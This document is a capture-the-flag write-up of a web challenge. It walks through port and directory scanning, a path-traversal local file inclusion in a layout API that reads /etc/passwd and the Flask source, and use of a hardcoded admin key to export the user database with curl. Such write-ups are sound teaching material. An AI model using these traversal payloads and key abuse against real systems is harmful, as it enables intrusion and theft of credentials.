







Target: http://10.80.171.127:5000




Initial scan:

```
nmap 10.80.171.127
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

Directory Enumeration
```
dirb http://10.80.171.127:5000
```

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Feb 13 23:01:48 2026
URL_BASE: http://10.80.171.127:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.80.171.127:5000/ ----
+ http://10.80.171.127:5000/dashboard (CODE:302|SIZE:199)                                                                            
+ http://10.80.171.127:5000/login (CODE:200|SIZE:2682)                                                                               
+ http://10.80.171.127:5000/logout (CODE:302|SIZE:189)                                                                               
+ http://10.80.171.127:5000/register (CODE:200|SIZE:2694)                                                                            

-----------------
END_TIME: Fri Feb 13 23:01:55 2026
DOWNLOADED: 4612 - FOUND: 4
```


After registering and logging in, we gain access to:

http://10.80.171.127:5000/my_profile




On the user profiles page:


The only interesting profile is Cupid’s, at the bottom of the page, which contains the message:

"I keep the database secure. No peeking."
This is a dead giveaway!!




Inspecting the page source reveals a commented script:



We understand that the page takes the layout name using the fetch request:
```
fetch(`/api/fetch_layout?layout=${layoutName}`)
```

The layout options available are:

```
<option value="theme_classic.html">Classic Romance</option>
<option value="theme_modern.html">Modern Dark</option>
<option value="theme_romance.html">Cupid's Choice</option>
```

So for example we can test and fetch one of the layouts directly from the browser:
```
http://10.80.171.127:5000/api/fetch_layout?layout=theme_romance.html
```

This returns the selected layout file for the Classic Romance theme.

Since the layout parameter is directly passed to the backend, this is a potential LFI vector.


First we start with path traversal as a test:

```
http://10.80.171.127:5000/api/fetch_layout?layout=../../../../etc/passwd
```

And we get a response that contains the contents of /etc/passwd:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
...
```

Now since this is a Flask app, we can retrieve the application source from "proc/self/cwd/app.py" using the same LFI with fetch:

```
http://10.80.171.127:5000/api/fetch_layout?layout=../../../../proc/self/cwd/app.py
```

This reveals the backend source code as a chunk, we copy it and paste it for better formatting.

In this code, we find a hardcoded admin API key:

```
ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_XOXO"
```

I also find a mention of the cupid.db, so I proceed with dumping the Database using the discovered API key following what we found on the app.py script:

```
curl -H "X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO" "http://10.80.160.177:5000/api/admin/export_db" -o cupid.db
```


This downloads the database file in the current terminal folder.

After opening cupid.db, we can easily retrieve Cupid’s password.




Then we log-in as cupid, and navigate to the profile page:




Attack Type: Local File Inclusion (LFI) via unsanitized file path parameter leading to source code disclosure, API key extraction, and database exfiltration.
